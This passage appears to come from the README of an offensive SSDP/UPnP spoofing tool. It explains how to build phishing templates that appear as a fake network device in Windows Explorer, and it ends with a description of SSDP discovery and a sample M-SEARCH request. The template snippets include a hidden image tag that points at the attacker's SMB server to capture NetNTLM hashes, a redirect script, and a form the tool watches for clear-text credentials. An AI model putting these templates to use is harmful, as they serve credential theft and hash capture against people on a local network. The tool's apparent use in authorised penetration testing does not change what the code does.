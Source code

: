 Creating your own templates is easy. Simply copy the folder of an existing template and edit the following files:
- `device.xml`:         Here is where you will define what the device looks like inside Windows Explorer.
- `login.html`:       This is the phishing page displayed when a target opens the evil device. Craft anything you like here. Note that Python's string template will parse this, so you will need to use `$$` in place of `$` anywhere to escape the template engine.
- `service.xml`:        Not yet implemented. May be needed for more complex UPNP spoofing in the future.

In your phishing page (`login.html`), use variables like the following for additional functionality:

```
# The following line will initiate a NetNTLM challenge/response using the IP
# address of either the interface you provide or an optionally specified IP
# address:
<img src="file://///$smb_server/smb/hash.jpg" style="display: none;" />

# The following will leverage optionally specified URL redirection. This is
# handy when used with basic authentication to redirect to a valid site. This
# line is built in to the microsoft-azure template:
    <script>
	    var url = "$redirectUrl";
    	    if (url != "") {
	    	document.location = url;
	    }
    </script>


# If using an HTTP form to capture clear-text credentials, use code like the
# following. Also any template doing a POST request will automatically
# support the '-u' parameter to redirect after the POST completes.  The tool
# will monitor POSTs to this URL for credentials:
<form method="POST" action="/ssdp/do_login.html" name="LoginForm">
```

The tool currently only correctly creates devices for the UPNP 'Basic' device type, although it is responding to the SSDP queries for all devices types. If you know UPNP well, you can create a new template with the correct parameters to fufill requests for other device types as well. There is still a lot to explore here with exploiting specific applications and the way they expect and leverage UPNP devices.

# Technical Details
Simple Service Discovery Protocol (SSDP) is used by Operating Systems (Windows, MacOS, Linux, IOS, Android, etc) and applications (Spotify, Youtube, etc) to discover shared devices on a local network. It is the foundation for discovering and advertising Universal Plug & Play (UPNP) devices.

Devices attempting to discover shared network resources will send a UDP multicast out to 239.255.255.250 on port 1900. The source port is randomized. An example request looks like this:
```
M-SEARCH * HTTP/1.1
Host: 239.255.255.250:1900
ST: upnp:rootdevice
Man: "ssdp:discover"
MX: 3
```
